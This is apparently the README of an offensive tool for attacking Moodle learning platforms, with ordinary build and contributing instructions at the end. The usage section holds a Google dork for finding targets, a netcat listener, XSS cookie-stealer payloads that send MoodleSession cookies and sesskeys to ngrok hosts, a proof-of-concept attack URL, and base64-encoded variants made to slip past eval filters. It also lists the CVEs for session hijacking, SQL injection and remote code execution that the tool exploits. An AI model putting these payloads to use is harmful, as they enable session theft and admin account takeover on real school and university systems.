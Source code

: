 # ToodleMoodle

TODO: Write a description here

## Installation

TODO: Write installation instructions here

## Usage

Google dork: This files describes API changes in core libraries and APIs inurl:lib/upgrade.txt

TODO: Write usage instructions here
Thanks moodle for giving code to pwn self:
https://docs.moodle.org/dev/Security:Cross-site_scripting
while true; do nc -l 9999; done

My cookie stealer:

``` html
<script>alert('xss');document.write('<img src="https://7ea30092.ngrok.io/?cookie=' + document.cookie + '" />')</script>
<script>document.write('<img src="https://7ea30092.ngrok.io/?session=' + document.cookie.match(new RegExp('(^| )MoodleSession=([^;]+)'))[2] + "&sesskey=" + M.cfg.sesskey + "&id=" + document.querySelectorAll('[data-userid]')[0].getAttribute("data-userid") + '" />')</script>
```

https://blog.innerht.ml/tag/clickjacking/ good demo of a button that follows the mouse.

https://moodle.org/mod/forum/discuss.php?d=384010 3.6 login as, hijack admin account implemented in clickjack.html

https://www.cvedetails.com/cve/CVE-2018-1045/ 3.3.4 XSS in calendar event name todo

https://moodle.org/mod/forum/discuss.php?d=345915 3.2.1 xss via url implemented

POC:
http://localhost/mod/assign/view.php?id=2&action=view"onload="document.body.appendChild(document.createElement('img')).src=('https://5fc418e2.ngrok.io/?session='.concat(document.cookie,'|',M.cfg.sesskey))

Encode payload in base64 then: 

"onload="eval(window.atob('ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdpbWcnKSkuc3JjPSgnaHR0cHM6Ly81ZmM0MThlMi5uZ3Jvay5pby8/c2Vzc2lvbj0nLmNvbmNhdChkb2N1bWVudC5jb29raWUsJ3wnLE0uY2ZnLnNlc3NrZXkpKQ=='))

or if eval is filtered:

"onload="new Function(window.atob('ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdpbWcnKSkuc3JjPSgnaHR0cHM6Ly81ZmM0MThlMi5uZ3Jvay5pby8/c2Vzc2lvbj0nLmNvbmNhdChkb2N1bWVudC5jb29raWUsJ3wnLE0uY2ZnLnNlc3NrZXkpKQ=='))()

The vulnerabilities we use are:

* Dashboard XSS CVE-2019-3847
* Assignment XSS CVE-2017-2578
* SQL Injection / Privilege escalation CVE-2017-2641
* RCE (must be teacher) CVE-2018-1133
* RCE (attacker needs permissions to create a quiz or at least be able to import questions)
CVE-2018-14630

Features:

* Scan: the tool can detect version and suggest supported exploits
* Exploit RCE 2018-1133 and CVE-2018-14630
* Exploit 2017-2641 SQL injection (via user pref) (generate sqlmap command)
* Add XSS to account dashboard, generate clickjacker, using CVE-2019-3847 to hijack
session
* Add XSS to calendar, generate link for victim to click and steal session

## Development

TODO: Write development instructions here
Make sure you have crystal & openssl installed. For MacOs, run
```
brew install crystal openssl
```

It is critical to compile this project, that you add the following lines to your bash_profile or zshrc:
```
export PKG_CONFIG_PATH="/usr/local/opt/openssl/lib/pkgconfig:$PKG_CONFIG_PATH"
export LDFLAGS="-L/usr/local/opt/libffi/lib -L/usr/local/opt/openssl/lib -L/usr/local/opt/llvm@6/lib -Wl,-rpath,/usr/local/opt/llvm@6/lib -L/usr/local/opt/llvm@6/lib $LDFLAGS"
export CPPFLAGS="-I/usr/local/opt/openssl/include -I/usr/local/opt/llvm@6/include $CPPFLAGS"
```

This adds LLVM, LibFFI, and OpenSSL to your compiler flags.

Now you can run this project (this will compile the project, hence the long startup time): 
```
crystal run src/tmoodle.cr
```

You can also build an executable:
```
crystal build src/tmoodle.cr
```
Use the  --release flag for an optimized production build.

### Docker image setup



## Contributing

1. Fork it (<https://github.com/your-github-user/toodlemoodle/fork>)
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create a new Pull Request

## Contributors

- [Riccardo Felluga](https://github.com/riccardofelluga) - contributor and maintainer
- [Claudio Spiess](https://github.com/your-github-user) - creator and maintainer
